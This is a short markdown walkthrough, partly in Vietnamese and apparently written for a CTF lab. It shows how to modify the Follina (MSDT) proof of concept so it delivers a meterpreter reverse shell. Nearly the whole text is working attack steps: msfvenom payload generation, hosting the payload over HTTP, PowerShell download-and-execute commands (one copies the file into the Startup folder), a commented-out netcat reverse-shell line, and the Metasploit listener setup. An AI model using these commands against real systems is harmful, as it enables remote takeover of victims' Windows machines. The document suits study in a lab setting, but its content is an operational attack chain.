 # Fix PoC Follina + combine with msfvenom
## 1. Create Payload with msfvenom
Create Reverse shell ip attacker, port 8386
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.1 LPORT=8386 -f exe -o shell.exe
```
PVN-ctfd
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=40.0.0.10 LPORT=8386 -f exe -o shell.exe
```
Chỉnh sửa PoC Follina để tải và chạy payload bằng PowerShell
## 2. Host Payload 
```
python3 -m http.server 9000
```
## 3. Chỉnh sửa PoC Follina để tải và chạy payload
Tạm thời bỏ câu lệnh dưới đây
```powershell
powershell.exe -Command "(New-Object Net.WebClient).DownloadFile('http://192.168.100.1:9000/shell.exe', 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\shell.exe'); Start-Process 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\shell.exe'"
```
Thêm dòn này vào file follina.py
```python
command = f"""powershell.exe -Command \"(New-Object Net.WebClient).DownloadFile('http://192.168.100.1:9000/shell.exe', 'C:\\Users\\StaffB\\Downloads\\shell.exe'); Start-Process 'C:\\Users\\StaffB\\Downloads\\shell.exe'\""""
    # command = args.command
    # if args.reverse:
        # command = f"""Invoke-WebRequest https://github.com/JohnHammond/msdt-follina/blob/main/nc64.exe?raw=true -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```
C:\Users\StaffB\Downloads
```powershell
powershell.exe -Command "(New-Object Net.WebClient).DownloadFile('http://192.168.100.1:9000/shell.exe', 'C:\Users\StaffB\Downloads\shell.exe'); Start-Process 'C:\Users\StaffB\Downloads\shell.exe'"
```
## 4. Sử dụng Metasploit
1. Mở metasploit
```
msfconsole
```
2. Thiết lập listener
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST 192.168.100.1
```
```
set LPORT 8386
```
```
exploit
```
# Audit.sh PVN-VN
# Difference between metasploit and metasploit pro
# Umbraco Indexero
# Dockerfile Lab 0b01 command linux
# WebSec standford
